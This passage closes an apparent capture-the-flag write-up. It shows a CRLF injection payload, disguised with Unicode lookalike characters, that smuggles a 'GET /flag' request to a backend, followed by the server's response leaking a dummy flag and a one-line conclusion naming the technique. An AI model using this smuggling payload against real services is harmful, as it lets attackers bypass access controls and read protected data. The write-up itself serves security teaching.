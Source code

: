 > Note: `%F0%9D%97%B3%F0%9D%97%85%F0%9D%92%B6%F0%9D%91%94` is the URL encoded `𝗳𝗅𝒶𝑔`.

CRLF injection payload:

```
<CR><LF><CR><LF>GET<space>/𝗳𝗅𝒶𝑔<CR><LF><CR><LF>
```

Smuggled request:

```http
GET /𝗳𝗅𝒶𝑔


```

Response:

```http
HTTP/1.1 503 Service Unavailable
[...]

Failed to decode response from http://backend/e6be69e6605cbe3c5f69de04bd7153cd: {"note":{"content":"bar","title":"foo"},"success":true}
{"error":"malformed note json: hxp{dummy}","success":false}
```

Nice! We finally got the flag!

## Conclusion

What we've learned:

1. CRLF injection in JWT signature to HTTP request smuggling